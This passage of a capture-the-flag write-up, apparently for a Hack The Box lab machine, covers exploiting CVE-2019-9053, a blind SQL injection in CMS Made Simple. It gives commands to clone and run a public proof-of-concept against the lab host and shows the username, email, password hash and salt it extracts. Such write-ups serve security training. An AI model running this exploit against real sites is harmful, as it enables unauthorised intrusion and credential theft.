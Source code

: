 
## 💥 Phase 3 — CVE-2019-9053 Exploitation (SQL Injection)

### Vulnerability Analysis

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2019-9053 - SQL Injection
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Affected Versions:</span> CMS Made Simple ≤ 2.2.10
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type:</span> Blind Time-Based SQLi
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score:</span> 9.8 (Critical)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            A blind time-based SQL injection vulnerability allows extracting sensitive information from the database via manipulation of an unfiltered parameter.
        </div>
    </div>
</div>

### Exploitation

Downloading the PoC:

```bash
git clone https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
cd CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
python cve.py -u http://10.10.10.138/writeup/ --crack -w best110.txt
```

<div class="bg-white dark:bg-dark-navbar p-5 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-4 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Extracted Information
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm space-y-1">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Username:</span> <span class="text-green-600 dark:text-green-400">jkr</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Email:</span> <span class="text-green-600 dark:text-green-400">jkr@writeup.htb</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Hash:</span> <span class="text-orange-600 dark:text-orange-400">62def4866937f08cc13bab43bb14e6f7</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Salt:</span> <span class="text-purple-600 dark:text-purple-400">5a599ef579066807</span>
        </div>
    </div>
</div>